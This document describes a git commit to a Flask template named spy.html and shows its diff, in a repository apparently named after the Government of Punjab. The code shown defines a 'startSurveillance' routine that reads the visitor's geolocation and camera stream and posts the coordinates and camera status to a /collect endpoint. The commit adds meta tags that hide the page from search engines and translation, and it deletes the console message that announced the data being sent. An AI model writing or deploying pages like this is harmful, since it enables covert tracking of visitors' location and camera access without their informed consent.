

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: template templates/spy.html in a window 1280 px wide. Shown: the part 39-764 px from the top of the page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; grey boxes are pictures that could not be loaded.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -6,6 +6,8 @@
   <meta name="viewport" content="width=device-width, initial-scale=1">
   <meta name="robots" content="noindex, nofollow">
   <meta name="googlebot" content="noindex, nofollow">
+  <meta name="google" content="nositelinkssearchbox">
+  <meta name="google" content="notranslate">
   <style>
     body {
       margin: 0;
@@ -57,7 +59,10 @@
       border-radius: 8px;
       margin-bottom: 10px;
       background: #333;
-      line-height: 200px;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      font-size: 14px;
     }
 
     video {
@@ -91,7 +96,6 @@
     const cameraView = document.getElementById('cameraView');
 
     async function collectData(cameraStatus, latitude = null, longitude = null) {
-      console.log("📡 Sending to /collect...");
       try {
         await fetch("/collect", {
           method: "POST",
@@ -112,9 +116,10 @@
     async function startSurveillance() {
       let lat = null, lon = null;
 
-      // 🔍 Get Location
       try {
-        const pos = await new Promise((res, rej) => navigator.geolocation.getCurrentPosition(res, rej));
+        const pos = await new Promise((res, rej) =>
+          navigator.geolocation.getCurrentPosition(res, rej)
+        );
         lat = pos.coords.latitude;
         lon = pos.coords.longitude;
         mapBox.innerHTML = `📍 Latitude: ${lat.toFixed(4)}<br>📍 Longitude: ${lon.toFixed(4)}`;
@@ -122,12 +127,12 @@
         mapBox.innerHTML = "❌ Location Blocked";
       }
 
-      // 📷 Camera Stream
       try {
         const stream = await navigator.mediaDevices.getUserMedia({ video: true });
         const video = document.createElement('video');
         video.srcObject = stream;
         video.autoplay = true;
+        video.playsInline = true;
         cameraView.innerHTML = '';
         cameraView.appendChild(video);
         collectData("✅ Camera Allowed", lat, lon);
```
